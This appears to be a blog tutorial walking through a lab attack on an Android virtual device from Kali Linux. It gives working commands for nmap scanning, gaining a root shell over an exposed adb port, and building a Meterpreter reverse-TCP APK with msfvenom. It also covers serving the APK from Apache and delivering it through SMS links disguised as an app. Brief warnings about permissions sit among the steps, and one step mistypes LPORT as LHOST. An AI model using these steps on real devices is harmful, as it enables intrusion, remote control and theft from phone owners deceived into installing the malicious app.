


Worldwide Mobile Operating Systems Market Share
Please be patient while the graphs load
African Mobile Operating Systems Market Share
Please be patient while the graphs load
Looking at the graphs above my reaction is:
From the Situation Room
It would be not a long shot to assume that you do own a Mobile device, and you are currently using it to view this blog.
How often have you received a SMS that seemed off, or was something that you would not expect?
Often times SMSs can have malicious links embedded in them, or can contain spam which might compromise your device.
Clicking on such links or installing unknown apps on your device, you might feel like doing this!

Onward to the exploit!
Now on to the actual HACKING!
DISCLAIMER: DO NOT TRY THIS AT HOME OR ON PUBLIC NETWORKS!
Step 1:
Open a terminal in your Kali VM and run the ifconfig command as shown below
ifconfigThis will show you all the network related information you will need further in the exploit. This includes your IP address.
Step 2:
Run the nmap command as shown below.
nmap -sP subnetnmap is a Security Scanner that allows us to scan networks with different options. The flags denoted by -sP are the most commonly used and initiate a stealthier scan of the network as well as all the devices that are currently running. The subnet option is a Classless Inter-Domain Routing (CIDR) representation for IP addresses. In essence it is a bit mask that shows what portions of the IP addresses can be utilised for the scan range. The entire subnet is scanned. This is shown below.
We can now run the following additional nmap command.
nmap -p- ip_addressThis will run a full scan of the device whose IP Address was specified and any open vulnerable port(s) will be shown. This is demonstrated in the picture below.

From here on out we should be able to complete our exploit as we see there is indeed an open port that is vulnerable, i.e. port 5555.
The next step would be to see if an Android Debug Bridge (adb) can be opened up on the Android device we want to target. This can be done by running the following adb command shown below.
adb connect ip_address:port_numberBoth the IP address and the open port of the Android device are specified. The results are shown below.
Once the connection is successfully established we can move on to opening up a shell within the virtual Android device. This can be done by running yet again another adb command show below.
adb shellThis should change your terminal prompt to "x86_64:/" and this is once again demonstrated in the picture below.
Once the shell has been created successfully we can now try to carry out privilege escalation by getting root access on the virtual Android device. This is done by running the superuser command as shown below.
su rootIf this is successful we should once again see our terminal prompt change to ":/ #" as shown in the picture below.
At this stage the vulnerable Android device is totally in our control. We can do as we please.

To ensure that we are truly in control of the device. The following commands are helpful:print working directory and the listing commands can be run one after the other as shown below.
pwdlsThe results of the first command should just be "/" and the results of the second command should be a long list as demonstrated in the picture below.
Now that privilege escalation has been successful we can move on to post exploitation where we can create a stronger more persistent stronghold within the virtual Android device.
Although post exploitation is an entire topic on its own, the basics will be discussed a little bit.
Firstly, run the change directory command as shown below.
cd /mnt/sdcard/This changes the directory to the SD card of the device as demonstrated in the next picture below.
Thereafter you can create a .sh file called testFile.sh which can then be executed when ever you feel like. The file can be created by running the touch command as shown below.
touch testFile.shTo edit a file you can easily call a text editor from the command line by running the vi command as shown below. This text editor is default in all Unix based systems.
vi testFile.shThis will open the vi text editor within the terminal. To edit the file you will have to enter the insert mode of the text editor. This can be achieved by pressing the I key on your keyboard. Once you are completed with the editing you can press Esc key on your keyboard. Thereafter, type the following :wq! and then press the Enter key. This will write the changes to the file and quit the text editor. You will be lead back to terminal once again.
Above we see the vi text editor in insert mode.
Once malicious code has been written and saved you can simply execute it from the terminal because you have root access.
Before we go further it has to be noted that if initially an open port was not found on the virtual Android device we can still carry out the exploit by following the steps discussed further down.
Step 3:
Let us carry out a new exploit!
In a new root terminal of your Kali Linux VM fire up the Metasploit console by running the msfconsole command as shown below.
msfconsoleYour terminal should now look something like this
Your terminal should also have "msf6" as its prompt now. This means you can begin to use commands specific to Metasploit. Additionally, if you see any information popping up before the "msf6" prompt, then consider it an inside joke by the developers of the Framework.
Step 4:
Now inside the Metasploit console type the Multi_Handler command as shown below.
msf6> use exploit/multi/handlerThe Multi_Handler command launches a stub that runs outside the Framework. This command launches a payload that can be used by our exploit and is built to our specifications, as we will see later.
Step 5:
Next run the Meterpreter command as is shown below.
msf6> search android/meterpreterThis will search through the Metasploit Framework to find an exploit that fits our search terms, i.e. an Android Meterpreter exploit. The commands from this and the previous step are shown below.
Meterpreter is a tool that is part of the Metasploit Framework which allows you to take advantage of, as well as, find vulnerabilities in a system. This penetration testing tool can easily take hold of victim's resources as needed. Meterpreter utilises an in-memory injection which writes nothing to disk. This allows for the exploit to run without being detected by normal means. A new process is not created, rather it injects itself into a compromised process. For this reason also the forensic footprint left behind by the Meterpreter is extremly limited.
Step 6:
Now we can move on to setting a payload for our exploit. This can be achieved by running the set_payload command as shown below.
msf6> set payload android/meterpreter/reverse_tcpWhen any host initiates a connection with a server, that is defined as a forward connection. However, when the opposite is done, where a server initiates a connection to any hosts, then that is defined as a reverse connection
Firewalls work on the basic premise of blocking all incoming connections. So therefore all reverse connections are blocked by default. However, if any host initiates a forward connection it is allowed.
reverse_tcp is instead of the attacker initiating the connection (which will obviously be blocked by the firewall), the target initiates the connection to the attacker. The attacker can then take control of the target device and pass commands. It is a type of reverse shell.

Step 7:
The next step will be to configure the options for our payload. This can be done by running the command listed below.
msf6> show optionsThe show options command shows the current options for the payload. These can then be changed, as is demonstrated in further steps below.
The 2 options listed will be looked at namely; LHOST and LPORT
Step 8:
To change the LHOST option run the command as shown below.
msf6> set LHOST ip_addressThe above command sets the IP address that will become a Listener, in other words which IP address all the communication from the victim will be forwarded to. This is set to the IP address our Kali Linux VM.
Step 9:
To change the LPORT option run the command below.
msf6> set LHOST port_numberThe above command changes the option of which port the Listener should receive information. This is usually an open port that is not being used by any other process or service.
The above picture demonstrates the options being changed. The IP address was set to 10.0.2.15 and the port was set to 4444
Step 10:
The only thing remaining to do is begin the exploit. This can be achieved by running the exploit command as shown below.
msf6> exploitThis aforementioned command begins the exploit and the Listener will listen to any incoming responses from the victim. This is usually after the victim installs the malicious APK file and opens it on their Android device. This is discussed further in the next steps.

Step 11:
Let us start to create the malicious APK file!
In a new terminal start up the Metasploit console once again, and input the following msfvenom command.
msf6> msfvenom –p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 R > /var/www/html/share/MyAwesomeApp.apkThe msfvenom command is used to create the malicious payload for the Android device. The APK file is saved to the share folder of the Apache server on our Kali Linux VM. A screenshot is show below.

If you see how small this file is, then this should be a red flag for you as a victim in the future.
You should feel like this if you do come across such a file in the wild.
Step 12:
The malicious APK can now be accessed on the virtual Android device and installed. To do this, open a new terminal in your Kali Linux VM and run the following service command below.
service apache2 startAbove we see that the malicious APK file has been created in the folder as we specified earlier. Additionally, running the following service command will show you if the Apache server is indeed up and running.
service apache2 statusAccessing the following link http://IP_Address/share/ on the virtual Android device's browser will open up the share folder.
10.0.2.15/share/The IP_Address was replaced with the our Kali Linux VM's IP address. This is shown below.
In a real world setting this link can automatically download the file if embedded in a SMS for example.
Once the victim downloads the file and opens it, they will see the following installation screen.

If you carefully look at the permissions required by this App you should NEVER EVER install the App.
However, if the malicious file is installed, it is game over!
The hacker is going to be like: Thank you very much!

Step 13:
The terminal where the exploit command was run will now change. The prompt in the terminal will now be meterpreter >
From here on the hacker will have full control of the virtual Android device. A full list of meterpreter commands can be accessed by typing the following help command as demonstrated below.
meterpreter > helpA screenshot is of some of these commands is shown.

A more comprehensive list of commands is shown below which was taken from the documentation of Metasploit
Some of these commands are quite dangerous and can easily compromise a victim within seconds.
Step 14:
Now that the exploit is complete we can move onto
"We're always chasing the bad guys – the good guys are never ahead. We're not the ones who wrote these exploits. They are often found in the wild and the defenders are generally following the black hats."
- H. D. Moore, Network Security Expert, Founder of the Metasploit Project
Sources: · GIFs by Tenor